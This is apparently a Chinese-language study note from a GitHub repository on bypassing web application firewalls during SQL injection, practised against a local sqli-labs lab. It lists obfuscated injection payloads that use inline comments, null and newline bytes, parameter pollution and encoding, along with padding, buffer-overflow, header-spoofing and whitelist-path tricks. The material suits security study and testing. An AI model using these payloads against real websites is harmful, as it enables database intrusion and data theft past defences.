



# WAF绕过

## 安全系统与WAF工具

常见的安全系统：WAF，IDS，IPS

识别大多数WAF的工具，`wafw00f`

在有WAF的时候注入会有什么效果

```url
http://192.168.132.132/mypage/sqli-labs/Less-2/?id=1 order by 3--+
http://192.168.132.132/mypage/sqli-labs/Less-2/?id=1 union select 1,2,3#
```

没有WAF的时候是正常的，有WAF的时候被拦截的





## WAF的本质

WAF检测的本质其实就是正则表达式的过滤，与自己的正则进行相应的匹配，这样就提供了一种思想，我们就可以通过一些特殊的符号，绕过正则表达式，这样就绕过了WAF。

## 绕过WAF

根据WAF的本质我们就可以知道，绕过WAF，其实最本质的就是绕过WAF对应的正则表达式，通过相应的注释符，让我们相应的SQL语句仍然可以执行，并且可以绕过相应的WAF。

因为现在的WAF太多了，我们不能只研究一种WAF，我们可以研究一种方法，通过这种方法我们可以能够更好的构建出一些绕过相应WAF的payload。而这种方法就是Fuzz方法。这种暴力破解的方法是最好构建出payload的方法。

因为一些payload我们不可能一个一个的去试，这样太麻烦了，所以我们可以根据思路去构建出一些payload然后去Fuzz。

## 部分Bypass Sqlinject Payload

```mysql
id=1 union/*%00*/%23a%0A/*!/*!select 1,2,3*/;%23

id=-1 union/*%00*/%23a%0A/*!/*!select% 1,database%23x%0A(),3*/;%23

id=-1 union /*!44509select*/ 1,2,3%23

id=-1 union /*!44509select*/ 1,%23x%0A/*!database*/(),3%23id=1/**&id=-1%20union%20select%201,2,3%23*/ #这个是HTTP污染的注入

id=-1 %20union all %0a select%201,2,3%23 # 这个是union 与 union all的区别，union是自动压缩结果集中的重复结果，union all是不压缩结果

-1 %20union all%23%0a select 1,%230%0Adatabase/**/(),3%23
http://192.168.132.132/mypage/sqli-labs/Less-2/?id=-1%20union%20all%20select%201,2,3
```

注：这些Payload中的空格可以使用%20来代替

## 根据上面的图片写的Payload

### 应用层

#### 大小写/关键字替换

```mysql
id=1 UnIoN/**/SeLeCT 1,user() # 这种现在一般都不能使用了
Hex() bin() 等价于 ascii()
Sleep() 等价于 benchmark()
Mid()substring() 等价于 substr()
@@user 等价于 User()
@@Version 等价于 version()
```

#### 各种编码

大小写，URL，hex（十六进制），等

#### 注释使用

`//`，`--    `，`--+`，`#`，`/**/`，`+`，`:%00`，`/!**/`

#### 再次循环

```mysql
union==uunionnion
```

#### 等价替换

```mysql
and=& or=| ascii=hex 等参数污染
```

#### 编码解码及加密解密

```mysql
hex，unlcode，base64 等
```

#### 更改请求提交方式

```mysql
GET POST COOKIE 等
POST->multipart/form-data # form表单提交数据为二进制类型
# application/x-www-form-urlencoded默认的编码方式
# text/plain纯文本传输
```

#### 中间件 HPP 参数污染

```mysql
?id=1&id=2&id=3
# 不同的数据库类型与中间件提供有不同的接受方式
```

### 数据库特性

#### Mysql 技巧

1. mysql 注释符有三种：`#`、`/*...*/`、`-- `(注意--后面有一个空格) 

2. 空格符:[0x09,0x0a-0x0d,0x20,0xa0]

3. 特殊符号：%0a 换行符

   可结合注释符使用%23%0a，%2d%2d%0a。 

4. 内联注释：

   ```mysql
   /*!UnIon12345SelEcT*/ 1,user() //数字范围 1000-50540
   ```

5. mysql 黑魔法

   ```mysql
   select{x username}from {x11 test.admin};
   ```

#### SQL Server 技巧

1. 用来注释掉注入后查询的其余部分：

   ```sql
   /* C语言风格注释
   -- SQL 注释
   ```

2. %00 -- 空白符<==>URL编码

3. 空白符：[0x01-0x20]<==>16进制编码

4. 特殊符号：%3a 冒号，这个冒号是一个占位符，后面跟着的内容是传参进来的。具体的去网上查看。

5. 函数变形：如 `db_name[空白字符]()`

#### Oracle 技巧

1. 注释符：`--`、`/**/`

2. 空白字符：[0x00,0x09，0x0a-0x0d,0x20]

3. 配合 FUZZ

   select * from admin where id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin

### 逻辑层

1. 逻辑问题

   1. 云 waf 防护，一般我们会尝试通过查找站点的真实 IP，从而绕过 CDN 防护。

   2. 当提交GET、POST同时请求时，进入POST逻辑，而忽略了GET请求的有害参数输入,可尝试Bypass。 

   3. HTTP 和 HTTPS 同时开放服务，没有做 HTTP 到 HTTPS 的强制跳转，导致 HTTPS 有 WAF 防护，HTTP没有防护，直接访问 HTTP 站点绕过防护。

   4. 特殊符号%00，部分 waf 遇到%00 截断，只能获取到前面的参数，无法获取到后面的有害参数

      输 入 ， 从 而 导 致 Bypass 。 比 如 ： id=1%00and 1=2 union select 1,2,column_name from

      information_schema.columns

2. 性能问题

   1. 在设计 WAF 系统时，考虑自身性能问题，当数据量达到一定层级，不检测这部分数据。只要不断的填充数据，当数据达到一定数目之后，恶意代码就不会被检测了。

      例子：

      ```mysql
      ?a0=0&a1=1&.....&a100=100&id=1 
      union 
      select 
      1,schema_name,3 
      from
      INFORMATION_SCHEMA.schemata
      ```

      PS：获取请求参数，只获取前 100 个参数，第 101 个参数并没有获取到，导致 SQL 注入绕过。

   2. 不少 WAF 是 C 语言写的，而 C 语言自身没有缓冲区保护机制，因此如果 WAF 在处理测试向

      量时超出了其缓冲区长度就会引发 bug，从而实现绕过。

      例子：

      ```mysql
      ?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9
      ```

      PS：0xA*1000 指 0xA 后面”A"重复 1000 次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里 1000 只做参考也许在有些情况下可能不需要这么长也能溢出。

3. 白名单

   这种白名单要求的条件比较苛刻，因为需要知道白名单中的内容

   1. IP 白名单

      从网络层获取的IP（TCP/UDP），这种一般伪造不来，如果是获取客户端的IP（请求头中的IP地址），这样就可能存在伪造 IP 绕过的情况。

      修改 http 的 header 来 bypass waf

      ```http
      X-forwarded-for
      X-remote-IP
      X-originating-IP
      x-remote-addr
      X-Real-ip
      ```

   2. 静态资源

      特定的静态资源后缀请求，常见的静态文件(.js .jpg .swf .css 等等)，类似白名单机制，waf 为了检测效率，不去检测这样一些静态文件名后缀的请求。

      ```url
      http://127.0.0.1/sql.php?id=1
      http://127.0.0.1/sql.php/1.js?id=1
      http://127.0.0.1/sql.php/1.txt?id=1
      ```

      为什么这种方式可以：

      因为：Aspx/php 只识别到前面的.aspx/.php后面基本不识别，参数一般是在php/asp中的，但是我们这样注入的话，WAF会认为我们将数据提交给1.js/1.txt中，这样我们就绕过了WAF。

   3. url 白名单

      URL白名单常与静态资源页面及进行结合使用。

      为了防止误拦，部分 waf 内置默认的白名单列表，如 admin/manager/system 等管理后台。只要 url中存在白名单的字符串，就作为白名单不进行检测。常见的 url 构造姿势：

      你对这样的URL进行相应的注入就不会被WAF拦截。

   4. 路径白名单

      路径白名单就是网站的路径，如果设置了路径白名单，那么在访问到这个网站路径的时候就不会被拦截，类似与URL白名单。

      ```url
      http://127.0.0.1/mypage/index.php/cd.php?id=1
      ```

      类似于这样的网页就不会被拦截，因为你访问的是特定的路径。


## 相关的资源

堆叠注入

https://www.cnblogs.com/backlion/p/9721687.html

PHPStudy配置SafeDog的问题

https://blog.csdn.net/nzjdsds/article/details/93740686
